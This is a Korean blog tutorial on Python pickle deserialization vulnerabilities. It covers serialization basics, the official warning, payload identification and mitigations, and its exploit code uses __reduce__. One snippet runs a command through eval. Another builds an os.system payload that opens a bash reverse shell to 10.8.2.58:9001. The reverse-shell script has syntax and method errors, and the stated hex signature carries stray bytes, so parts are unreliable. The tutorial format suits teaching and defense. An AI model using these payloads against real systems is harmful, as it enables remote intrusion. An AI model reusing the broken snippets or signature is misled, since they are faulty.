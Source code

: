 ```yaml
---
layout: single
title: Deserialize_Vulnability for Python_Pickle
categories: Web-vuln
tag: [python, Pickle, Deserialize, Deserialize Vulnability]
toc: true
author_profile: false
---
```


# Deserialize란?

> 역 직렬화로 써 직렬화된 데이터 즉 바이트 스트림을 역연산 하는 과정을 말한다.

## Serialization?

> 계층 구조의 데이터를 바이트 스트림으로 변환하는 작업을 뜻하며,  객체를 저장 및 전송의 편리함 및 다른 플렛폼에서 사용하거나, 객체의 상태를 저장하기 위해 자주 사용된다.

# 직렬화는 어떤 기능을 하는 앤드포인트에서 사용될까?
1. 서버와 클라이언트 간의 데이터 전송
- 서버에서 객체를 JSON형식으로 직렬화하여 클라이언트에게 보내고 클라이언트는 해당 JSON을 파싱하여 객체로 변환하며, 보통 REST API, GraphQL 등 다양한 웹 API 통신에서 사용된다.
2. 데이터베이스 저장 및 조회
- ORM 사용시, 객체를 데이터베이스 레코드로 직렬화되고, 역직렬화가 이루어진다.
3. 캐싱
- 서버 측에서 데이터를 캐싱할 때 객체를 직렬화하여 캐시 스토리지에 저장하고, 캐시에서 데이터를 가져올 때 역직렬화 하여 객체로 변환하게됨
4. 파일 저장 및 읽기
- JSON, XML, YAML형식의 설정 파일을 읽고 쓸 때 객체의 직렬화, 역직렬화가 이루어진다.

# Deserialize에서의 취약점은 왜 발생 하는가?
> 사용자가 악의적인 데이터를 공격 서버와 동일한 방식으로 직렬화 하여 바이트 스트림을 생성후 서버에 제출하게 되면, 서버측에서는 이를 역직렬화 과정에서 제대로 검증하지 않고, 트리거 되기 떄문이다. 이 때 운영체제 명령어를 삽입하여 RCE 까지 연계될 수 있다.

# Deserialize for pickle
> Python에서 많이 사용되는 직렬화 및 역직렬화 라이브러리, 모듈인 Pickle 에서 Deserialize과정에서 취약점이 발생한다.
Pickle 라이브러리에서 직렬화 및 역직렬화를 하기 위해 내장된 함수는
1. pickle.dumps
2. pickle.dump
3. pickle.loads
4. picklid.load

위와 같이 존재한다. 직렬화를 하게되면, 아래와 같은 바이트 스트림으로 생성되는것을
확인할 수 있다.

```python
import pickle,base64

def pickled():
    data={"data":"test", "date":"2023"}
    serialized = pickle.dumps(data)
    print(serialized)

if __name__ == "__main__":
    pickled()

------------
b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x04data\x94\x8c\x04test\x94\x8c\x04date\x94\x8c\x042023\x94u.'
```

하지만 일반적으로 data는 일부 문자가 인쇄 가능한 형식이 아니므로 base64로 인코딩 형식으로
변환하여 저장한다. 그 후 역직렬화를 통해 기존 데이터를 불러올 수도 있다.

```python
import pickle
import base64

def pickled():
    data={"data":"test", "date":"2023"}
    serialized = base64.b64encode(pickle.dumps(data))
    print(serialized)
    deserialized=pickle.loads(base64.b64decode(serialized))
    print(deserialized)

if __name__ == "__main__":
    pickled()
---------------------------------------------------------
b'gASVIQAAAAAAAAB9lCiMBGRhdGGUjAR0ZXN0lIwEZGF0ZZSMBDIwMjOUdS4='
{'data': 'test', 'date': '2023'}
```

# Vulnability for Pickle?
파이썬의 공식 문서의 pickle문서를 보면 아래와 같은 내용을 표시하고있다.<br>
<div class="notice">
  <h4><aside>
💡 **Warning** 
The `pickle` module **is not secure**. Only unpickle data you trust.

**Warning**

The `pickle` module **is not secure**. Only unpickle data you trust.

It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Consider signing data with [`hmac`](https://docs.python.org/3/library/hmac.html#module-hmac) if you need to ensure that it has not been tampered with.

Safer serialization formats such as [`json`](https://docs.python.org/3/library/json.html#module-json) may be more appropriate if you are processing untrusted data. See [Comparison with json](https://docs.python.org/3/library/pickle.html#comparison-with-json).

</aside></h4>
</div>
> 경고 : Pickle 모듈이 안전하지 않습니다. 신뢰할 수 있는 데이터만 unpickle 하세요
> 역직렬화 중에 임의의 코드를 실행하는 악의적인 pickle데이터를 구성하는 것이 가능합니다. 신뢰할 수 없는 소스에서 왔거나, 변조되었을 수 있는 데이터를 절대로 unpickling 하지 마세요
그렇다. 즉 악의적인 사용자가 변조된 data를 직렬화 하여 서버로 보내면, 서버는 아무 검증 없이<br>
역직렬화 과정을 진행하는데 이 때 data에 임의의 시스템 명령어가 포함하고 있을경우 이를 실행시키고 실행 결과값을 반환한다.

# 공격 표면
요청 값에 대한 응답값을 확인해보면 직렬화 기능을 사용하는지에 대해 추측이 가능하다.
<br>
Python의 직렬화된 객체의 signature 는 gASV이다. Pickle를 통해 dumps 값을 유심히 봤다면 알 수 있듯 gASV로 시작한다. 이는 인코딩된 페이로드를 식별할 수 있는 방법이 될 수 있다.
<br>
16진수라면 c28004c29526000000000000이다.

## “__reduce__”
해당 “__reduce__” 메서드를 사용하여 공격자는 공격 코드를 제작한다.
해당 <u style="color=red; ">**메서드는 인수를 사용하지 않고, 문자열이나 가급적 튜플을 반환해야한다.**</u>
“__reduce__”메서드는 직렬화 된 계층 구조를 unpickling 할 때 객체를 재구성하는 것에 대해 tuple을 반환한다.

```python
import pickle, base64
from typing import Any

class exploit:
    def __reduce__(self):
        cmd = "ping -c 1 172.20.120.196"
        return (eval, (cmd,))
test={"name":exploit()}

if __name__ == '__main__':
    print(base64.b64encode(pickle.dumps(test)).decode('utf8'))
```

위 코드와 같이 eval,builtins.{함수}, exec, popen, os.system, subprosess.{함수} 와 같이 시스템
<br>
명령어를 포함하여 직렬화를 수행할 수 있다.

## Reverse Shell

ping 로 시스템 명령이 가능하며, 외부 서버와의 연결이 허용될 때
<br>
RCE로 이어질 수 있다.

```python
import base64. os, pickle


class exploit(object):
	def __reduce__(self):
		return (os.system, ("bash -c 'bash -i >& /dev/tcp/10.8.2.58/9001 0>&1'",))

def send_payload():
	payload = exploit()
	payload = base64.b64encode(pickle.dumps(payload)).b64decode('utf8')
	print(payload)

if __name__ == "__main__":
	send_payload()
```

# 대응방안
1. 사용자 입력값에 대한 데이터 유효성 검사 및 검증 
2. 화이트 리스트 기반의 입력값 검증 정책 적용
3. 권한이 낮은 환경에서 역직렬화된 코드를 격리 후 실행
4. pickle data가 저장되는 경우 파일 시스템 권한을 검토 후 데이터에 대한 액세스 보호 확인
5. pickle 과정에서 암호화 서명 사용

# Referance
- https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/
- https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/